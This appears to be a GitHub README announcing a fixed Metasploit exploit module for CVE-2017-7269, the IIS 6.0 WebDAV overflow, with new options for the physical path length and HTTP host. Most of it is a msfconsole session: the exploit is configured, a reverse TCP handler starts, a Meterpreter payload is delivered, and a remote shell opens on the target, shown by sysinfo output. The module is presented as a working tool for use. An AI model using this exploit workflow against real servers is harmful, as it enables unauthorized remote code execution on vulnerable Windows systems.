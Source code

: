 ### fixed msf module for cve-2017-7269

fix not work when length of physical path not equal to 19,or has a host binding.

add options: `PhysicalPathLength`,`HttpHost`

for test:
host phyiscal path: `c:\inetpub\` , length=`11`

    
    msf > use exploit/windows/iis/cve-2017-7269
    msf exploit(cve-2017-7269) > show options
    
    Module options (exploit/windows/iis/cve-2017-7269):
    
       Name                Current Setting  Required  Description
       ----                ---------------  --------  -----------
       HttpHost            localhost        yes       http host for target
       PhysicalPathLength  19               yes       length of physical path for target(include backslash)
       RHOST                                yes       The target address
       RPORT               80               yes       The target port (TCP)
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Microsoft Windows Server 2003 R2
    
    
    msf exploit(cve-2017-7269) > set rhost 192.168.223.130
    rhost => 192.168.223.130
    msf exploit(cve-2017-7269) > set rport 8088
    rport => 8088
    msf exploit(cve-2017-7269) > set physicalpathlength 11
    physicalpathlength => 11
    msf exploit(cve-2017-7269) > set httphost zcgonvh-test.com
    httphost => zcgonvh-test.com
    msf exploit(cve-2017-7269) > exploit

    [*] Started reverse TCP handler on 192.168.223.129:4444 
    [*] Sending stage (957487 bytes) to 192.168.223.130
    [*] Meterpreter session 1 opened (192.168.223.129:4444 -> 192.168.223.130:1135) at 2017-03-30 18:13:41 -0400

    meterpreter > sysinfo
    Computer        : ZCG-AA4B4E60208
    OS              : Windows .NET Server (Build 3790, Service Pack 2).
    Architecture    : x86
    System Language : zh_CN
    Domain          : WORKGROUP
    Logged On Users : 3
    Meterpreter     : x86/windows
    meterpreter > 

    


